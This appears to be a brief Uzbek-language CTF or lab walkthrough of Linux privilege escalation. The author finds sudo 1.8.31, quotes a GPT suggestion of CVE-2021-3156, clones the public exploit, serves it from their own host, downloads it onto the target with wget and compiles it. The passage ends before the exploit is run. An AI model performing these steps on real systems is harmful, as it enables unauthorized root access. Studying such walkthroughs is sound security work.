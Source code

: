

Tizim versiyasi:

```
www-data@ip-10-201-41-130:/$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
www-data@ip-10-201-41-130:/$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.6 LTS
Release:	20.04
Codename:	focal
```

By gpt:

```
🧩 2. Sudo exploitlari (versiya bo‘yicha)
Sudo 1.8.31 da quyidagilarni tekshirib ko‘ring:

🔥 CVE-2021-3156 — Baron Samedit
Bu sudo versiyasi ushbu zaiflikdan ta'sirlangan bo'lishi mumkin. Bu zaiflik heap-based buffer overflow orqali sudo dan rootga chiqish imkonini beradi.
```

Exploit topildi!
Uni avval o'zimizga yuklab olib serverga jo'natamiz:

```
git clone https://github.com/blasty/CVE-2021-3156.git
```
```
sudo python3 -m http.server 80
```



Uni serverga yuklab olish:

```
cd /tmp
```

```
wget -r --no-parent 10.8.24.135/CVE-2021-3156
```

Exploitni ishga tayyorlaymiz:

```
cd CVE-2021-3156
```

```
make
```
